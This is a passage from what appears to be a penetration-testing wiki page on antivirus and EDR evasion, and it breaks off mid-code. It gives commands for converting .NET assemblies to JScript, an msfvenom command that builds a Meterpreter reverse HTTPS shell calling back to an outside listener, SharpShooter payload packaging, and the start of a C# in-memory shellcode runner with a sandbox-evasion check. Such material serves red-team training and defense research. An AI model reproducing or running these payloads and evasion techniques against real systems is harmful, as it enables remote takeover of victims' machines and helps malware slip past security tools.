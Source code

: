 
Compile to Jscript with *DotNetToJScript.exe*:

```
Cmd > .\DotNetToJScript.exe .\ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```


#### SharpShooter

* [https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/](https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/)
* [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.88 LPORT=443 -f raw -o met.bin
$ python SharpShooter.py --dotnetver 4 --stageless --rawscfile met.bin --payload js --output evil
```

{% hint style="info" %}
This tool can efficiently be used with [HTML Smuggling](/pentest/infrastructure/ad/av-edr-evasion/html-smuggling.md) technique.
{% endhint %}



### C\# DLL with PowerShell Cradle (in Memory)

* [https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html](https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html)

{% code title="ShellcodeRunner.cs" %}
```csharp
using System;
using System.Runtime.InteropServices;

namespace ShellcodeRunner
{
    public class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        public static void Run()
        {
            // Check if we're in a sandbox by calling a rare-emulated API
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
```
